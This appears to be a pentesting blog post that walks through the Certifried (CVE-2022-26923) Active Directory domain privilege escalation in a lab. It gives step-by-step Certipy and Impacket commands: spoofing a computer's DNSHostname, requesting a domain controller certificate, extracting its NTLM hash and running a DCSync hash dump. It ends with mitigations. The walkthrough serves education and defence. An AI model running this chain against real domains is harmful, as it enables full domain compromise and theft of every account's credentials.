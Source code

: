 ```yaml
---
layout: post
title:  "AD Pentesting | Domain Privesc - Certifried (CVE-2022-26923)"
---
```


![Certifried-diagram](/assets/Certifried/Certifried-diagram.jpg)

# The Attack In Brief
1. AD Certificates can be used for authentication.
2. Certificates can be generated from **templates** in a **Certificate Signing Request** (CSR).
3. There are **two** types of templates available in **ADCS** by default: User and Computer.
4. Those templates are **accessible to anyone** in the `Domain Users` or `Domain Computers` groups.
5. Those templates **allow the certificate holder to authenticate** with them.
6. *When generating a certificate for a computer object*, the template will check its `DNSHostname` property and **will generate the certificate based on that**.
7. **Meaning:** *if the computer's* `DNSHostname` *says it's a Domain Controller,* you will get a certificate for a **Domain Controller!**
8. *By default,* **any authenticated user** can join up to 10 computers to the domain.
9. *When a user joins a computer to the domain,* he can modify its `DNSHostname` property.
10. *Combining points above,* a user can *spoof* the `DNSHostname` to *forge* a certificate as a **Domain Controller**.
11. *With a Domain Controller's certificate,* the user *can obtain* the computer account's **NTLM** hash.
12. *And with that hash,* he can *impersonate* a legit **Domain Controller** and *request a full copy of the domain's hashes* (a.k.a **perform a `DCSync` attack**).

---

# Tools Needed
1. [Certipy](https://github.com/ly4k/Certipy)
2. [Impacket](https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](/assets/Certifried/dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](/assets/Certifried/kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](/assets/Certifried/normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed DNSHostname
**Command:** `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](/assets/Certifried/creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](/assets/Certifried/proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first obtain the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating.

![finding-out-the-ca-name](/assets/Certifried/finding-out-the-ca-name.jpg)

**Command:** `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`

Pssword = the same password generated from the computer creation in the previous step

![requesting-dc-cert](/assets/Certifried/requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
**Command:** `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](/assets/Certifried/got-nt-hash-for-dc.jpg)

## 4. Performing DCsync As The Impersonated Domain Controller
**Command:** `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](/assets/Certifried/dc-sync-with-dc-ntlm-hash.jpg)

---

# Mitigation
1. Applying the patch released by Microsoft [here](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923).
2. Reducing certificate template permissions.
3. Reducing the default user's machine quota to zero. Only Administrators should have this privilege.

---

# References and Credits
- **Will Schroeder** and **Lee Christensen** who wrote the paper that started it all [here](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- [Oliver Lyak](https://twitter.com/ly4k_) who discovered, reported and explained the vulnerability [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) as well as created the `Certipy` tool.
- **SecureAuthCorp** for the awesome **Impacket** scripts of course :D